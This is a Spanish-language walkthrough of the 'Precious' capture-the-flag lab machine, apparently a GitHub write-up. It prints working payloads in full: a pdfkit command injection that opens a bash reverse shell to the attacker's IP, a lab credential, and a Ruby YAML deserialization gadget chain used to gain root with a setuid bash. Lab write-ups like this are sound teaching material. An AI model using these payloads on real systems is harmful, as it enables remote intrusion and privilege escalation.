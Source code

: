 # PreciousWriteup

Comenzamos haciendo un escaneo en nmap

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/9adab530-5f29-48e7-94f7-9963cef27d85)

Vemos abierto dos puertos el 22 y el 80

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.189
~~~

Entramos a la página web y vemos que no carga agregamos a /etc/hosts la ip seguida de precious.htb

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/70856aa6-e7a3-4c48-bebc-3184521d9968)

Vemos esta página, creamos un server con python -m http.server 80

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/862b14e8-2632-4fa8-a47f-368fb100ce17)

Ponemos nuestro link para que genere el pdf

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/cfc0aa43-a424-48c4-b474-3a95bc1d5887)

Vemos los metadatos y dice generated by pdfkit v0.8.6

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/29a00b1f-4530-4d40-be18-6e1c45d0f54d)

Buscamos vulnerabilidades para pdfkit

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/5d80fa24-515e-44d6-b8ba-cbc0852da1ef)

Vemos que permite la ejecucion remota de comandos

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/b6bdc2d2-c40c-4b25-952d-589c5c9ac2ac)

Lo calamos

~~~
http://example.com/?name=#{'%20`sleep 5`'}
~~~

Vemos que si tarda 5 segs en conectar

Calamos generar un reverse shell

~~~
http://10.10.14.136/?name=#{'%20`bash -c "/bin/bash -i >& /dev/tcp/10.10.14.136/9123 0>&1"`'}
~~~

Damos el -c para que se ejecute bien 

~~~
-c        If the -c option is present, then commands are read from the first non-option argument command_string.  If there are arguments after the command_string, the first argument is assigned to $0 and any remaining argu‐
                 ments are assigned to the positional parameters.  The assignment to $0 sets the name of the shell, which is used in warning and error messages.
       -i        If the -i option is present, the shell is interactive.
~~~

Estamos en /var/www/pdfapp, vamos a home

Damos un ls y no hay nada, damos ls -laRh, para ver carpetas y subcarpetas ocultas

Vemos varias

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/669cab4b-e1c4-4fda-a248-75348fb35730)

Entramos a ./.bundle

Vemos config y hay como una clave de ssh

~~~
henry:Q3c1AqGHtoI0aXAYFH
~~~

Entramos y ganamos la primera flag

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/b416ec1f-1154-4985-8a21-62ae9f996e31)

Ahora damos sudo -l para ver variables de entorno

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/b415c905-df00-4ac4-8d67-d017b48bc32a)

~~~
-l, --list  If no command is specified, list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.  A longer list format is used if this option is specified
                 multiple times and the security policy supports a verbose output format.

                 If a command is specified and is permitted by the security policy, the fully-qualified path to the command is displayed along with any command line arguments.  If a command is specified but not allowed by the pol‐
                 icy, sudo will exit with a status value of 1
~~~

Nos vamos a opt

A ver el update_dependencies.rb

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/87383423-d1ee-44aa-bc9b-51677e66b26e)

Vemos que abre un archivo dependencies.yml y no especifica el camino

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/96e9610e-9cef-4451-9855-7516374e4603)

Y vemos que tiene permisos de root

Enocntramos que se puede deserializar, con ruby 


~~~
---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
~~~

En git set podemos ejecutar el comando

Ponemos chmod +s /bin/bash

Y hacemos bash -p

![imagen](https://github.com/Hamibubu/PreciousWriteup/assets/108554878/c6d48436-17eb-4fe7-bcfe-6c813d2da2a5)

Y obtenemos la flag



